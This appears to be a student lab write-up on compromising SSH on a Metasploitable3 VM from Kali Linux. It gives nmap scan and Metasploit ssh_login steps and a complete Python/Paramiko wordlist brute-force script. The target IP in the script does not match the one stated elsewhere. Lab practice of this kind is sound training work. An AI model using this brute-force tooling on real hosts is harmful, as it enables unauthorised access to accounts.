 # Phase 1 Work
---

# Phase 1: Setup and Compromise the Service

## Overview

In this phase, we configured two virtual environments to simulate an attack scenario. The target machine (Metasploitable3) was configured with several known vulnerable services, and the attacker machine (Kali Linux) was used to compromise one of these services. The selected service for this phase was **SSH**, which was successfully compromised using both Metasploit and a custom script.

---

## 1. Environment Setup

### 🖥 Victim Environment: Metasploitable3
- **Platform:** VirtualBox on Windows
- **IP Adress**: 192.168.56.101
  ![لقطة شاشة 2025-04-29 225928](https://github.com/user-attachments/assets/3f0d03ed-c30f-46d7-a50d-3b23d42c9405)

-**Vulnerable Services Running:**
We executed the command nmap -sV 192.168.56.101 to perform a service version scan on the target machine. This allowed us to enumerate the active services and identify potential vulnerabilities, ultimately helping us select SSH as the target for exploitation.
![لقطة شاشة 2025-04-29 230118](https://github.com/user-attachments/assets/20f0d103-8a20-4df2-9e9c-70f95b7f92df)


### 💻 Attacker Environment: Kali Linuxs
- **Platform:** VirtualBox on Windows
- **IP Adress**: 192.168.56.102
  ![لقطة شاشة 2025-04-29 230105](https://github.com/user-attachments/assets/aba89bfb-3d89-4f8a-a34e-79832e7815d6)


#### Tools Used:
- Metasploit Framework
- Nmap
- Hydra
- Python 3 with Paramiko library
    
---

## 2. Selected Vulnerable Service

- **Targeted Service:** SSH (Port 22)  
- **Reason for Selection:** SSH on Metasploitable3 is configured with weak/default credentials, making it vulnerable to brute-force attacks or password reuse exploits.

---

## Service Enumeration

We scanned the target machine using `nmap` to identify open ports and determine which services were running.

Command used:
```
nmap -sV 192.168.56.101
```

## Task 1.1: Compromise Using Metasploit

Steps to exploit the SSH service:

1. Launch Metasploit:
   ```
   msfconsole
   ```
2. Search for the SSH login module:
   ```
   search ssh_login
   ```
3. Use the auxiliary scanner:
   ```
   use auxiliary/scanner/ssh/ssh_login
   ```
4. Configure the module:
   ```
   set RHOSTS 192.168.56.101
   set USER_FILE user.txt
   set PASS_FILE pass.txt
   run
   ```
5. Successful login confirms service compromise.

## Task 1.2 – Compromise Using Custom Script

## 🔐 Custom SSH Brute-Force Script (Python + Paramiko)

This script automates brute-force login attempts to the SSH service using combinations from `user.txt` and `pass.txt`.

This script automates brute-force login attempts to the SSH service using combinations from `user.txt` and `pass.txt`.

```python
import paramiko
import time

host = "192.168.100.138"
port = 22
user_file = "/home/bdoor/user.txt"
pass_file = "/home/bdoor/pass.txt"

def try_login(username, password):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    try:
        ssh.connect(host, port=port, username=username, password=password, timeout=5)
        print(f"[+] SUCCESS: {username}:{password}")
        ssh.close()
        return True
    except paramiko.AuthenticationException:
        print(f"[-] Invalid:  {username}:{password}")
    except paramiko.SSHException as e:
        print(f"[!] SSH Error: {e}")
    except Exception as e:
        print(f"[!] Other Error: {e}")
    return False

with open(user_file, "r") as users:
    for user in users:
        user = user.strip()
        with open(pass_file, "r") as passwords:
            for pwd in passwords:
                pwd = pwd.strip()
                if try_login(user, pwd):
                    exit(0)
                time.sleep(1)  # Wait 1 second to avoid banner issues

print("[*] Brute-force complete. No valid credentials found.")
```
---

## 5. Conclusion

We successfully exploited the SSH service running on Metasploitable3 using:
1. **Metasploit**, leveraging known default credentials.
2. A **custom Python script**, automating the brute-force and login process.



